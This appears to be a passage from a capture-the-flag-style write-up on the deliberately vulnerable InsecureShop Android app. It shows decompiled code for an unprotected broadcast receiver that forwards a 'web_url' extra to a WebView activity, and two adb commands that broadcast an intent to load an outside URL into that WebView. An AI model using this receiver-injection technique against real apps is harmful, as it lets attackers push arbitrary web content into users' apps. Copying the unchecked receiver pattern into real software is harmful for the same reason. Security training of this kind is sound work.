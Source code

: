 In `com.insecureshop.AboutUsActivity`, we can see the following code.

```java
CustomReceiver customReceiver = new CustomReceiver();
        this.receiver = customReceiver;
        if (customReceiver == null) {
            Intrinsics.throwUninitializedPropertyAccessException("receiver");
        }
        registerReceiver(customReceiver, new IntentFilter("com.insecureshop.CUSTOM_INTENT"));
```
A receiver is being registered for the Intent com.insecureshop.CUSTOM_INTENT. The type of the receiver is CustomReceiver

In the CustomReceiver class, we can find the following code.
```
String stringExtra = (intent == null || (extras = intent.getExtras()) == null) ? null : extras.getString("web_url");
        String str = stringExtra;
        if (!(str == null || StringsKt.isBlank(str))) {
            Intent intent2 = new Intent(context, (Class<?>) WebView2Activity.class);
            intent2.putExtra("url", stringExtra);
            if (context != null) {
                context.startActivity(intent2);
            }
```
The web_url passed as extras to the intent is being used to start the WebView2Activity which as we saw earlier is vulnerable.

So all we have to do to take advantage of this, is start the AboutUsActivity and then broadcast a properly formatted intent. This can be done by issuing the following two commands utilizing adb:

`adb shell am start -n com.insecureshop/.AboutUsActivity`
`adb shell am broadcast -a com.insecureshop.CUSTOM_INTENT --es web_url "https://yasuu.free.nf"`

